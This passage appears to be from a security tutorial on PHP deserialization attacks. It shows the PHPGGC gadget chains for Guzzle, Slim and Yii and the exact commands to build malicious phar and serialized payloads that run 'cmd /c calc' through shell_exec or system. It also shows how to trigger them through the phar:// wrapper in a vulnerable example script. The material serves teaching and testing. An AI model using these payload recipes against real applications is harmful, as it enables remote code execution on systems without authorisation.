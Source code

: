 As ysoserial, this is an extremely powerful tool, which can automatically create gadget chains for many different PHP frameworks, such as:

* Drupal7
* Wordpress
* ZendFramework
* Slim
* Laravel
* Magento
* Guzzle
* ... others

As mentioned, the example application uses Slim, Guzzle and Yii. Conveniently, the three are among **PHPGCC** supported gadget chains:

```bash
$ phpggc -l

Gadget Chains
-------------

NAME                                      VERSION                        TYPE             VECTOR         I
Guzzle/RCE1                               6.0.0 <= 6.3.2                 rce              __destruct     *
Slim/RCE1                                 3.8.1                          rce              __toString
Yii/RCE1                                  1.1.20                         rce              __wakeup       *

```

To exploit the deserialization induced by `phar://`, a malicious phar file must be generated, then passed to application using the phar wrapper as part of the name. The phar wrapper will force the file to be deserialized, starting a POP chain that will eventually lead to RCE. A valid payload may be generated using the following command:

```bash
$ phpggc Guzzle/RCE1 "shell_exec" "cmd /c calc" -p phar -pf desert -o desert.phar
```
Then, the payload can be tested launching the vulnerable script, giving as input the payload, prefixed with the phar wrapper:

```bash
$ php php-wrap-desert.php -fphar://desert.phar/desert -p
```

Doing that will spawn a calculator on the hosting machine.

The other serialization vulnerability can be exploited in a similar way, the only things to notice is the following:

Even though PHPGGC has a Slim RCE gadget chain, if the print function is disabled (commented), it won't work. It may be obvious, but Slim uses `__toString` to trigger the POP chain, hence it won't be able to do that without a string operation. To try it, create a payload like the following:

```bash
$ phpggc Slim/RCE1 "system" "cmd /c calc" -o desert.bin
```
